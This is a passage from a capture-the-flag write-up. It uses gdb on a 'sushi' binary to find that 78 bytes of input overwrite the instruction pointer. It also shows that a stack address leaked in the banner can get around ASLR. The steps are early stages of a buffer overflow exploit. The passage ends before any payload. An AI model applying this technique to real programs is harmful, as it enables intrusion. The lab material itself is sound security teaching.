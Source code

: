 ```
rip      0x7ffff7a70e03     0x7ffff7a70e03 <__libc_start_main+83>  
eflags     0x10202     [ IF RF ]  
cs       0x33     51  
ss       0x2b     43  
ds       0x0     0  
es       0x0     0  
fs       0x0     0  
gs       0x0     0  
(gdb)   
```

Ok so we can control the value of EBP with 72 bytes of A's. What about with more A's? An address is 6 bytes long in this context so I'll bump up the buffer size to 78 bytes.

```
(gdb) r  
The program being debugged has been started already.  
Start it from the beginning? (y or n) y  
Starting program: /root/bsides/sushi   
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000  
Deposit money for sushi here: 0x7fffffffe250  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
Sorry, $0.65 is not enough.  
Program received signal SIGSEGV, Segmentation fault.  
0x0000414141414141 in ?? ()  
(gdb)   
```

Ok that's more like it. Direct control over EIP from 78 bytes of input. So now all we need to do is exploit this remotely and capture the flag. Easy!

First roadblock is, if you noticed from the results of the offset fuzzing python output about is that each time the sushi program starts the address it gives is different. ASLR does this and if it behaves this way on the remote system as it does on my local system then we need to deal with that in order to deliver a reliable exploit.

Fortunately our sushi engineers have been nice to just give us a perfectly valid stack location right in the greeting banner.

```
root@mankrik:~/bsides# gdb --quiet ./sushi  
Reading symbols from /root/bsides/sushi...(no debugging symbols found)...done.  
(gdb) r  
Starting program: /root/bsides/sushi   
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000  
Deposit money for sushi here: 0x7fffffffe250  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
Sorry, $0.65 is not enough.  
Program received signal SIGSEGV, Segmentation fault.  
0x0000414141414141 in ?? ()  
(gdb) x/8bx 0x7fffffffe250  
0x7fffffffe250:     0x41     0x41     0x41     0x41     0x41     0x41     0x41     0x41  
(gdb)   
```
